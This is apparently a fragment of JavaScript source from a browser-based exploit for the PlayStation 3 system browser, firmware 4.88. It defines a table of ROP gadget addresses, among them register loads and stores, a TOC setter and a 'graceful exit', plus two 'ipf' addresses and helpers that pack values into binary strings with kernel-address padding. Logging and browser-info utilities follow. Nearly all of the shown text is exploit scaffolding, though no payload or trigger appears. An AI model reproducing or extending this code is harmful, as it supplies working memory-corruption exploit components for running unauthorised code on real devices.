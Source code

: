 var gadget_mod3_addr_488=0x0B8E00;
var gadget_mod4a_addr_488=0x0D9684;
var gadget_mod4b_addr_488=0x42C778;
var gadget_mod4c_addr_488=0x054AF0; //load r5 word
var gadget_mod5_addr_488=0x4238DC;
var gadget_mod6_addr_488=0x020C00;
var gadget_mod7_addr_488=0x01A6AC;
var gadget_mod8_addr_488=0x2BACB8;// graceful exit
var gadget_mod9_addr_488=0x010B20;
var gadget_mod10_addr_488=0x1C5794;
var gadget_mod11_addr_488=0x18B144;
var gadget_mod12_addr_488=0x6331FC; //validation gadget
var gadget_mod13_addr_488=0x336870; //store_r3 gadget
var gadget_mod14_addr_488=0x633900; //load r3 dword
var gadget_mod15_addr_488=0x39D038; //load r3 word
var gadget_mod16_addr_488=0x4F732C; //set toc
var ipf1_addr_488=0x6ebb78; 
var ipf2_addr_488=0x507374; 


function hexh2bin(hex_val)
{
	return String.fromCharCode(hex_val);

}
function hexw2bin(hex_val)
{
	return String.fromCharCode(hex_val >> 16) + String.fromCharCode(hex_val);
}
function hexdw2bin(hex_val) // 32bit support only (due to javascript 53bit integer limitation)
{
	return hexw2bin(0) + hexw2bin(hex_val); // 00000000 padding
}
function k_hexdw2bin(hex_val) // 32bit support only (due to javascript 53bit integer limitation)
{
	return hexw2bin(0x80000000) + hexw2bin(hex_val); // 80000000 padding
}
function logAdd(txt)
{
	if(debug===true)
	{
		if(document.getElementById('log').innerHTML===''){setInnerHTML(document.getElementById('log'),hr);}
		addInnerHTML(document.getElementById('log'),txt+br); 
	}
}
function clearLogEntry()
{
	setInnerHTML(document.getElementById('log'),'');
}
function clearResultEntry()
{
	setInnerHTML(document.getElementById('result'),'');
}
function writeEnvInfo()
{
	setInnerHTML(document.getElementById('footer'),hr+"<h3>PS3 System Browser Info:</h3>"+navigator.userAgent+br+navigator.appName+" (" + navigator.platform + ")"+br+new Date().toTimeString() + br);
}
